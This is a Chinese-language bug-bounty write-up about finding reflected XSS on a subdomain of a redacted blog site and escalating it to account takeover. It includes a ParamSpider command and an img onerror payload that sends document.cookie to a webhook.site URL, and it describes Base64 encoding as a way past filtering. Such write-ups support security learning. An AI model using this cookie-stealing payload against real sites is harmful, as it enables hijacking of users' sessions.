 # URL注入：通过跨站脚本 (XSS) 发现账户劫持 (ATO) 漏洞

在寻找一个拥有数百万用户的程序时，我特别关注了一个大型博客网站，这里姑且称之为 `redacted.com`。我首先对其子域名进行了枚举。我发现的一个子域名是 `jp.redacted.com`。

接下来，我使用 `Param Spider` 工具来收集所有可能的参数。我使用的命令是：

```
param spider -d jp.redacted.com -s 
```

(该命令用于在终端列出所有可能的参数)

此命令在终端中列出了所有可能的参数。其中，我发现了一个名为 s= 的参数，它允许我使用简单载荷执行反射型 XSS (RXSS)：

```html
<script>alert(1)</script>
```

![](./../../img/1_RoZet6wDPJj_WVBnv9x3iQ.png)

成功执行 XSS 后，我尝试使用简单载荷将其升级为 ATO （Account Takeover 即账户劫持）漏洞：

```HTML
<img src="x" onerror=document.location=%27https://webhook.site/790fbd5e-8cc4-441e-9a81-6ac18f40cb5f?c=%27+document.cookie;">
```

然而，这种方法不起作用，我尝试了多种载荷都以失败告终。经过一番试验，我决定在输入载荷之前将其编码成 Base64 格式。令我惊讶的是，这样做的确让载荷在网站上执行，并成功捕获了受害者的 Cookie 信息。

![](./../../img/1_Y2y1BGAfk8SIIUha_AuRMQ.png)

我向该团队报告了通过 RXSS 漏洞导致的 ATO 漏洞，但遗憾的是，在过去的五个月里我都没有收到回复。



### 使用的工具：

**Param Spider：** Param Spider 是一款强大的工具，专门用于从 **Wayback Machine** 等网络存档中挖掘有价值的 URL，以支持进一步的渗透测试工作，如漏洞挖掘、模糊测试等。



